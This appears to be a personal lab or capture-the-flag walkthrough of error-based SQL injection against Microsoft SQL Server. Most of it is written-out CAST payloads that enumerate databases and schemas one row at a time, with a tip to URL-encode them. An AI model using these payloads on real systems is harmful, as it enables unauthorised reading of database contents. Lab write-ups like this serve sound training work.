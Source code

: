 ![[Pasted image 20240820183332.png]]
```sql
CAST ((SELECT name FROM sys.databases ORDER by name OFFSET 3 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
model database
![[Pasted image 20240820183422.png]]
```sql
CAST ((SELECT name FROM sys.databases ORDER by name OFFSET 4 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
msdb database
![[Pasted image 20240820183500.png]]
```sql
CAST ((SELECT name FROM sys.databases ORDER by name OFFSET 5 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
sqlmap database
![[Pasted image 20240820183717.png]]
Well we know that the flag is in `exercise` db, so now we have the database now we just have to enumerate the schema with this query below to show one `SCHEMA`
 at a time

**Schemas are essentialy folders, holding data** - a way to segrate files logically.
```sql
CAST ((SELECT SCHEMA_NAME from exercise.information_schema.SCHEMATA ORDER BY SCHEMA_NAME OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
insert `SQL` abnd `CTRL + U` to url encode
![[Pasted image 20240820195738.png]]
we get the `schema` for `db_accessadmin`
![[Pasted image 20240820195923.png]]
repeat by iterating +1 in `OFFSET`
```sql
CAST((SELECT SCHEMA_NAME from exercise.information_schema.SCHEMATA ORDER BY SCHEMA_NAME OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
`db_backupoperator` schema found
![[Pasted image 20240820201827.png]]
repeat by iterating +1 in `OFFSET`
```sql
CAST((SELECT SCHEMA_NAME from exercise.information_schema.SCHEMATA ORDER BY SCHEMA_NAME OFFSET 2 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
![[Pasted image 20240820202129.png]]
```sql
CAST((SELECT SCHEMA_NAME from exercise.information_schema.SCHEMATA ORDER BY SCHEMA_NAME OFFSET 9 ROWS FETCH NEXT 1 ROWS ONLY) as integer)
```
`dbo` schema found which is `SYSTEM` owned after `9` rows searched
![[Pasted image 20240820202303.png]]
Now we need the table names
from the `exercise` database, with `information_schema.tables` schema and `TABLE_SCHEMA` =`'dbo'`
